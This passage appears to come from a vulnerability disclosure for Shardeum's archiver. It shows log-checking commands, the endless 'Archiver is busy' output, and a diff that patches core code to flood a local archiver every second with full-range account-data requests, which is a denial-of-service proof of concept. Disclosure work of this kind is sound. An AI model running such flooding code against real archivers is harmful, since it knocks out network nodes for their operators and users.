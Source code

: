 > Check logs and look again until the network started syncing.

```sh
shardus pm2 "logs 2 --lines 100"
```

> Wait about 15 minutes until the syncing process started, check the logs again

You should observe that the logs keep spamming with

```sh
getAccountDataFromArchiver result {
  success: false,
  error: 'Archiver is busy serving other validators at the moment!'
}
```

These logs seem to be never ending, the code loops and the validator will never be able to sync the network.

### DOS of the archiver

Since we know that the attack works while the archiver is in a DOS state, let's now DOS it!

#### shardeum/core

```diff
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 47059f7d..86e04ff3 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -93,6 +93,7 @@ import SocketIO from 'socket.io'
 import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join'
 import * as NodeList from '../p2p/NodeList'
 import { P2P } from '@shardeum-foundation/lib-types'
+import * as http from '../http'
 
 // the following can be removed now since we are not using the old p2p code
 //const P2P = require('../p2p')
@@ -620,6 +621,11 @@ class Shardus extends EventEmitter {
     } catch (e) {
       this.mainLogger.error('Socket connection break', e)
     }
+
+    setInterval(async () => {
+      await this.spamArchiver();
+    }, 1000);
+
     this.network.on('timeout', (node, requestId: string, context: string, route: string) => {
       const ipPort = `${node.internalIp}:${node.internalPort}`
       //this console log is probably redundant but are disabled most of the time anyhow.
@@ -1040,6 +1046,29 @@ class Shardus extends EventEmitter {
     this.setupDebugEndpoints()
   }
 
+  async spamArchiver() {
+    const dataSourceArchiver = {
+      ip: "127.0.0.1",
+      port: 4000
+    };
+    const accountDataArchiverUrl = `http://${dataSourceArchiver.ip}:${dataSourceArchiver.port}/get_account_data_archiver`
+    try {
+      const message = {
+        accountStart: '0000000000000000000000000000000000000000000000000000000000000000',
+        accountEnd: 'ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff',
+        tsStart: 0,
```
